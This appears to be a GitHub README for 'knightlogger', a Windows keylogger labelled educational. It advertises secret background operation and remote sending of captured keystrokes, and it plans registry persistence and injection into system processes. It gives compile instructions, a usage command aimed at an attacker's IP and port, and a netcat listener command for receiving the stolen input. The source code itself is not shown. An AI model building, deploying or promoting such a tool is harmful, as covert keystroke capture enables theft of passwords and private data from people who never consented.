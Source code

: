 # knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms
notice this app is making high cpu usage
# options:
- remote access keylogger
- works in background secretly
 -> additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`g++ -o knightlogger.exe knightlogger.cpp -lwsock32`
lwsock32 for telling g++ to link windows socket library

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

